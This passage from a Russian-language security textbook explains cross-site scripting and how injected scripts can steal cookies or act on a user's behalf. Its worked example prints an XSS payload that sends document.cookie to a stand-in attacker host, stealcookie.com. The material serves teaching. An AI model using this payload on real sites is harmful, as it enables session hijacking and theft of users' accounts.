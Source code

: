 \section{Межсайтовый скриптинг}

Другой вид распространенных программных уязвимостей состоит в некорректной обработке данных, введенных пользователем. Типичные примеры -- отсутствующее или неправильное экранирование специальных символов и полей (например, спецсимволы \texttt{<} и \texttt{>} HTML, кавычки, слэши \texttt{/}, \texttt{\textbackslash}) и отсутствующая или неправильная проверка введенных данных на допустимые значения (например, SQL-запрос к базе данных веб-ресурса вместо логина пользователя).

Межсайтовый скриптинг (Cross-Site Scripting, XSS) заключается во внедрении в веб-страницу злоумышленником $A$ исполняемого текстового скрипта, который будет исполнен браузером клиента $B$. Скрипт может быть на языках JavaScript, VBScript, ActiveX, HTML, Flash. Целью атаки является, как правило, доступ к информации клиента.

Скрипт может получить доступ к cookie-файлам данного сайта, например, с аутентификатором, вставить гиперссылки на свой сайт под видом доверенных ссылок. Вставленные гиперссылки могут содержать информацию пользователя.

Скрипт также может выполнить последовательность HTTP GET- и POST-запросов на веб-сайт для выполнения действий от имени пользователя. Например, вирусно распространить вредоносный JavaScript код со страницы одного пользователя на страницы всех друзей, друзей друзей и т.~д. и затем удалить все данные пользователя. Атака может привести к уничтожению социальной сети.

Приведём пример кражи cookie-файла веб-сайта, который имеет уязвимость на вставку текста, содержащего код, который будет исполнен браузером.


Например, пусть аутентификатор пользователя в cookie-файле сайта \texttt{myemail.com} содержит
\begin{center} \begin{verbatim}
auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

Пусть текстовое сообщение, помещенное пользователем, содержит текстовый скрипт, помещающий на странице <<изображение>>, расположенное по некоему адресу.
\begin{verbatim}
<script>
  new Image().src = "http://stealcookie.com?c=" +
    encodeURI(document.cookie);
</script>
\end{verbatim}

